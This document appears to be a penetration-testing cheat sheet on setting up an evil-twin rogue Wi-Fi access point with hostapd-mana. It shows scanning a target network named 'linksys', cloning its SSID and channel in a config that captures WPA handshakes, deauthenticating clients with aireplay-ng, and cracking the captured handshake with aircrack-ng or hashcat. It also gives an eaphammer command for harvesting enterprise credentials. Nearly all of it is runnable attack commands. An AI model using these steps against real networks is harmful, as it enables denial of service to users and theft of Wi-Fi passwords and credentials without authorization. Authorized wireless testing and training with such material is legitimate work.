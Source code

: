 ## Rogue Access Point

```text
sudo apt install hostapd-mana
sudo apt-get install libssl-dev
```

### Note - A network card with interface modes "AP mode" is requred or the config will fail
```text
iw list | grep "Supported interface modes" -A 8

        Supported interface modes:
                 * IBSS
                 * managed
                 * AP
                 * AP/VLAN
                 * monitor
                 * mesh point
```

```text
sudo airodump-ng wlan0mon

BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID 
11:22:33:44:55:66  -68       12        1    0   1  130   WPA2 CCMP   PSK  linksys
```

At this point we know the following about our target AP:


It has an ESSID of linksys

It has a BSSID of 11:22:33:44:55:66

It uses WPA2 (TKIP/CCMP) (and probably WPA (TKIP/CCMP))

It uses a auth of PSK

It runs on channel 1


#### Create Configuration file
```text
cat linksys-mana.conf

interface=wlan0
ssid=linksys
channel=1
hw_mode=g
ieee80211n=1
wpa=3
wpa_key_mgmt=WPA-PSK
wpa_passphrase=ANYPASSWORD
wpa_pairwise=TKIP CCMP
rsn_pairwise=TKIP CCMP
mana_wpaout=/home/<name>/linksys.hccapx
```
We need to specify the band to 2.4 GHz by setting the hw_mode parameter to the letter "g". If the network was running on 5 GHz, we would set hw_mode to "a".

We will set the wpa parameter to the integer "3" to enable both WPA and WPA2 (setting this parameter to "1" enables only WPA and setting the value to "2" enables only WPA2).


#### Start Access Point
```text

sudo systemctl disable dnsmasq && sudo systemctl disable hostapd
sudo rfkill unblock wifi
sudo rfkill unblock all
sudo airmon-ng check kill
sudo ip link set dev wlan0 up
sudo ifconfig wlan0 up
sudo hostapd-mana linksys-mana.conf
```

Wait for a capture of a WPA/2 handshake in output.

##### De-Auth if needed
```text
sudo aireplay-ng -0 0 -a 11:22:33:44:55:66 wlan0mon
```

#### Crack!
```text
aircrack-ng linksys.hccapx -e linksys -w /usr/share/john/password.lst

or ...

hcxhash2cap --hccapx=linksys.hccapx -c out.cap
hcxpcapngtool -o hash.hc22000 -E wordlist out.cap
hashcat -m 22000 hash.hc22000 /usr/share/john/password.lst
```

#### eaphammer - alternative
```text
sudo eaphammer --cert-wizard
sudo eaphammer -i wlan0mon --channel 4 --auth wpa-eap --wpa-version 2 --essid linksys --creds
```


https://wiki.gentoo.org/wiki/Hostapd

https://tbhaxor.com/evil-twin-wifi-network-using-hostapd-mana/




